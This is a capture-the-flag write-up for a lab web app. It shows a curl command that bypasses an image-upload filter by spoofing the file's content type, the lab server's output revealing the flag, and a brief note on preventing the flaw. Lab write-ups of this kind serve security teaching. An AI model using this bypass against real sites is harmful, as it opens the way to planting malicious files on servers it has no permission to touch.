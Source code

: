 When we inspect the image upload page, we see the following upload form:  

![source_code](Source_code.png)  

By trying to upload different type of files, it seems like it only accepts jpeg files.  

Input file name : "uploaded"
Input Submit button: name: "Upload", value: "Upload"  
Header Content Type: `multipart/form-data`


Posting the data directly to the page which contains the code for handling the file upload is a method for completely bypassing a client side filter. -> Use of CURL  
Syntax: `curl -X POST -F “submit:<value>” -F “<file-parameter>:@<path-to-file>” <site>`.  
To use this method you would first aim to intercept a successful upload (using Burpsuite or the browser console) to see the parameters being used in the upload, which can then be slotted into the above command.

Using the information from the browser command, we can try this:  
`curl -X POST -H "Content-Type: multipart/form-data" -F "Upload=Upload" -F "uploaded=@/mnt/nfs/homes/cboutier/Desktop/Darkly/9_Upload_exploit/Ressources/test.c;type=image/jpeg" "http://192.168.56.103/?page=upload" | grep flag`  
<!-- 
curl -X POST -H "Content-Type: multipart/form-data" -F "Submit_btn_name = Submit_btn_value" -F "Input_file_name =@ file_to_upload;type=image/jpeg" "page_address" | grep flag
 -->

We get the following result:

```
_exploit/Ressources/test.c;type=image/jpeg" "http://192.168.56.103/?page=upload" | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3036    0  2747  100   289    549     57  0:00:05  0:00:04  0:00:01   723
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/test.c succesfully uploaded.</pre>
```

To prevent this, not trust the content-type header blindly, as this can be altered by a third-party. Examine the file extension directly to block file types not accepted.


MAN CURL:  
-X, --request <method>
              (HTTP) Specifies a custom request method to use when communicating with the HTTP server. The specified  request  method
              will  be used instead of the method otherwise used (which defaults to GET).

-F, --form <name=content>
              (HTTP  SMTP  IMAP) For HTTP protocol family, this lets curl emu‐
              late a filled-in form in which a user  has  pressed  the  submit
              button.  This  causes  curl  to POST data using the Content-Type
              multipart/form-data according to RFC 2388.

              For SMTP and IMAP protocols, this is the means to compose a mul‐
              tipart mail message to transmit.

              This  enables  uploading of binary files etc. To force the 'con‐
              tent' part to be a file, prefix the file name with an @ sign. 
			  @ makes  a  file  get attached in the post as a file upload.

              Example: send an image to an HTTP server, where 'profile' is the
              name of the form-field to which the file  portrait.jpg  will  be
              the input:

               curl -F profile=@portrait.jpg https://example.com/upload.cgi

              Example:  send your name and shoe size in two text fields to the
              server:

               curl -F name=John -F shoesize=11 https://example.com/

              You can also  tell  curl  what  Content-Type  to  use  by  using
              'type=', in a manner similar to:

               curl -F "web=@index.html;type=text/html" example.com


https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html  
https://infosecwriteups.com/upload-vulnerabilities-tryhackme-writeup-f6fba1dad902  


![upload_page](file_upload_page.png)  
